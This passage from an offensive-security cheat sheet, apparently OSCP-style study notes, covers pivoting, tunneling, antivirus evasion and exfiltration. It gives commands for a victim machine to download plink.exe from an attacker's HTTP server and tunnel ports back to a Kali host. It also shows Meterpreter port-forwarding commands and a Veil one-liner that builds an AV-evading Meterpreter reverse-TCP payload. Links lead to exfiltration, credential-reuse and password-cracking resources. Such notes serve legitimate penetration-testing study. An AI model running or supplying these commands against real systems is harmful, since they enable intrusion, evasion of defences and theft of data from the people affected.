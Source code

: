 ## 18. Pivoting, Port forwarding and tunneling
[port_forwarding_and_tunneling](https://sushant747.gitbooks.io/total-oscp-guide/port_forwarding_and_tunneling.html) | [visual pivot attack](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#starting-point) | [PayloadsAllTheThings - Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

*Local Forwarding:*	#forward a port from the client machine to the server machine.

	ssh -L 80:victim.com:80 attacker.com		#OpenSSH
	ssh -L 9090:victimIP:445 user@attackerIP	#Port 9090 locally is forwarded to port 445 on victimIP through attackerIP host

*[Remote Forwarding:](https://www.ssh.com/ssh/tunneling/example)*	#outside(public) access to an internal web server. staff working from home, or by an attacker.

	ssh -R 8080:localhost:80 public.example.com
	
*windows portforward [plink.exe:](https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html)*

	cd /usr/share/windows-resources/binaries/ | python3 -m http.server 9000
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/plink.exe -OutFile plink.exe	
	#plink.exe -l <kali_user> -pw <kali_passwd> <kaliIP> <-R bind to lport>:127.0.0.1:<rport>
	cmd victim: plink.exe -l root -pw kalipasswd 192.168.0.101 -R 8080:127.0.0.1:8080

*[meterpreter portforward:](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-port-forwarding)* | [metasploitable-3-meterpreter-port-forwarding](https://ultimatepeter.com/metasploitable-3-meterpreter-port-forwarding/)
	
	portfwd add -l <kali port> -p <victim port> -r <victim ip>	
	portfwd add -l 3306 -p 3306 -r 10.10.10.180			#mySQL portforward ##portforwarding
	nc 127.0.0.1 3306 | mysql -u root 127.0.0.1			#can access this port on our machine locally
	portfwd flush							#delete all port forwards
	portfwd list							#list active port forwards
	
*[sshuttle](https://github.com/sshuttle/sshuttle) (linux):*

	#forwards over ssh. Doesn't require admin. Works with Linux and MacOS. Supports DNS tunneling. 
	sshuttle -r root@kaliIP 10.10.10.0/24
	
	
## 19. AV Evasion 		*#lol illuminati-mode*

**[Veil:](https://github.com/Veil-Framework/Veil)** 			

	cd /usr/share/veil; sudo ./Veil.py -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444 -o evil   #veil one liner, output at /var/lib/veil/output/compiled/
	
## 20. Exfiltration | Password Cracking | Wordlists

- [exfiltration](https://book.hacktricks.xyz/untitled#copy-and-paste-base64)
- [PayloadsAllTheThings - Using Windows credentials](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md) - u got credential or hashes?? now u can login to victim
- [CrackStation's Password Cracking Dictionary](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)
- [List of Rainbow Tables](https://project-rainbowcrack.com/table.htm)
- [Rocktastic Mega Wordlist](https://labs.nettitude.com/tools/rocktastic/)
